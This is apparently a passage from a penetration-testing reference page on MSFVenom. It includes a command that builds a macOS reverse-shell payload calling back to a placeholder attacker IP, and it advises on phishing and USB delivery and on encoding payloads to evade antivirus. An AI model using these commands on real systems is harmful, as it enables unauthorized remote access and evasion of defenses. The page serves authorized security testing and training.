 ### Customizable Payloads
- **Description:** Allows customization of payloads with specific options, such as IP addresses, ports, and additional parameters for advanced exploitation.
- **Usage:**
```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f macho -o shell.macho
```

### Listing Payloads and Encoders
- **Description:** Lists all available payloads and encoders in the Metasploit Framework to help users choose the most appropriate ones for their attack scenarios.
- **Usage:**
```sh
msfvenom -l payloads
msfvenom -l encoders
```

## Tools for Payload Generation and Encoding Using MSFVenom

- **Exploitation and Social Engineering:** Use MSFVenom to generate payloads that can be delivered via exploits, phishing emails, or USB drops to compromise target systems.
- **Antivirus and IDS/IPS Evasion:** Encode payloads with different encoders to evade antivirus software and intrusion detection/prevention systems.
- **Shellcode Injection:** Generate raw shellcode for injection into processes or for use in custom exploits and payload delivery methods.
- **Cross-Platform Attacks:** Create payloads for multiple operating systems, including Windows, Linux, macOS, Android, and iOS, to target a wide range of environments.
- **Integration with Metasploit:** Use MSFVenom-generated payloads in conjunction with the Metasploit Framework to exploit vulnerabilities and maintain control over compromised systems.

## Best Practices
- **Use MSFVenom Responsibly:** Always ensure that you have proper authorization before using MSFVenom-generated payloads for offensive security tasks.
- **Regularly Update Metasploit Framework:** Keep Metasploit and MSFVenom up-to-date to benefit from the latest payloads, encoders, and security enhancements.
- **Test Payloads Carefully:** Test generated payloads in a controlled environment before deploying them in real-world scenarios to ensure they work as expected and do not trigger defenses.
- **Combine with Other Tools:** Use MSFVenom alongside other post-exploitation tools like [[Metasploit]], [[Empire]], and [[Cobalt Strike]] for comprehensive assessments.
- **Analyze Encoding Options:** Experiment with different encoders and encoding iterations to achieve maximum evasion and effectiveness against antivirus and IDS/IPS.

## References
- [Metasploit Framework GitHub Repository](https://github.com/rapid7/metasploit-framework)
- [MSFVenom Payload Creator (MSFPC)](https://github.com/g0tmi1k/msfpc)
- [MSFVenom Cheat Sheet](https://highon.coffee/blog/msfvenom-cheat-sheet/)
- [Using MSFVenom for Payload Generation](https://null-byte.wonderhowto.com/how-to/use-msfvenom-generate-cross-platform-payloads-0197598/)
- [Metasploit Unleashed: MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

